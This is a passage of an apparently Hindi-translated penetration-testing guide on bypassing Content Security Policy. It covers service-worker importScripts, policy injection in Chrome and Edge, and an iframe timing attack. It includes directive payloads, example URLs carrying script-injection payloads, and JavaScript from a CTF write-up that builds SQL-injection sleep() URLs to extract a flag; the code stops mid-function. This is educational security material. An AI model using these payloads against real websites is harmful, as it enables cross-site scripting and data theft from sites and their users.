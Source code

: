 ### सेवा कार्यकर्ताओं के साथ

सेवा कार्यकर्ताओं की **`importScripts`** फ़ंक्शन CSP द्वारा सीमित नहीं है:

{% content-ref url="../xss-cross-site-scripting/abusing-service-workers.md" %}
[abusing-service-workers.md](../xss-cross-site-scripting/abusing-service-workers.md)
{% endcontent-ref %}

### नीति इंजेक्शन

**अनुसंधान:** [**https://portswigger.net/research/bypassing-csp-with-policy-injection**](https://portswigger.net/research/bypassing-csp-with-policy-injection)

#### क्रोम

यदि एक **पैरामीटर** जो आपने भेजा है, **नीति के घोषणा** के अंदर **पेस्ट** किया जा रहा है, तो आप **नीति** को इस तरह से **बदल** सकते हैं कि यह **बेकार** हो जाए। आप इन बायपास में से किसी के साथ **स्क्रिप्ट 'unsafe-inline'** की **अनुमति** दे सकते हैं:
```bash
script-src-elem *; script-src-attr *
script-src-elem 'unsafe-inline'; script-src-attr 'unsafe-inline'
```
क्योंकि यह निर्देश **मौजूदा script-src निर्देशों को अधिलेखित** करेगा।\
आप यहाँ एक उदाहरण पा सकते हैं: [http://portswigger-labs.net/edge\_csp\_injection\_xndhfye721/?x=%3Bscript-src-elem+\*\&y=%3Cscript+src=%22http://subdomain1.portswigger-labs.net/xss/xss.js%22%3E%3C/script%3E](http://portswigger-labs.net/edge\_csp\_injection\_xndhfye721/?x=%3Bscript-src-elem+\*\&y=%3Cscript+src=%22http://subdomain1.portswigger-labs.net/xss/xss.js%22%3E%3C/script%3E)

#### Edge

Edge में यह बहुत सरल है। यदि आप CSP में केवल यह जोड़ सकते हैं: **`;_`** **Edge** पूरी **नीति** को **गिरा** देगा।\
उदाहरण: [http://portswigger-labs.net/edge\_csp\_injection\_xndhfye721/?x=;\_\&y=%3Cscript%3Ealert(1)%3C/script%3E](http://portswigger-labs.net/edge\_csp\_injection\_xndhfye721/?x=;\_\&y=%3Cscript%3Ealert\(1\)%3C/script%3E)

### img-src \*; XSS (iframe) के माध्यम से - टाइम अटैक

निर्देश `'unsafe-inline'` की कमी पर ध्यान दें।\
इस बार आप पीड़ित को **XSS** के माध्यम से **आपके नियंत्रण** में एक पृष्ठ **लोड** करने के लिए मजबूर कर सकते हैं `<iframe` के साथ। इस बार आप पीड़ित को उस पृष्ठ तक पहुँचने के लिए मजबूर करने जा रहे हैं जहाँ से आप जानकारी निकालना चाहते हैं (**CSRF**)। आप पृष्ठ की सामग्री तक पहुँच नहीं सकते, लेकिन यदि किसी तरह आप **पृष्ठ को लोड करने में लगने वाले समय को नियंत्रित कर सकते हैं** तो आप आवश्यक जानकारी निकाल सकते हैं।

इस बार एक **झंडा** निकाला जाएगा, जब भी एक **चर सही अनुमानित** किया जाता है SQLi के माध्यम से **प्रतिक्रिया** **अधिक समय** लेती है नींद फ़ंक्शन के कारण। फिर, आप झंडा निकालने में सक्षम होंगे:
```html
<!--code from https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle -->
<iframe name=f id=g></iframe> // The bot will load an URL with the payload
<script>
let host = "http://x-oracle-v1.nn9ed.ka0labs.org";
function gen(x) {
x = escape(x.replace(/_/g, '\\_'));
return `${host}/admin/search/x'union%20select(1)from%20challenge%20where%20flag%20like%20'${x}%25'and%201=sleep(0.1)%23`;
}

function gen2(x) {
x = escape(x);
return `${host}/admin/search/x'union%20select(1)from%20challenge%20where%20flag='${x}'and%201=sleep(0.1)%23`;
}

async function query(word, end=false) {
let h = performance.now();
```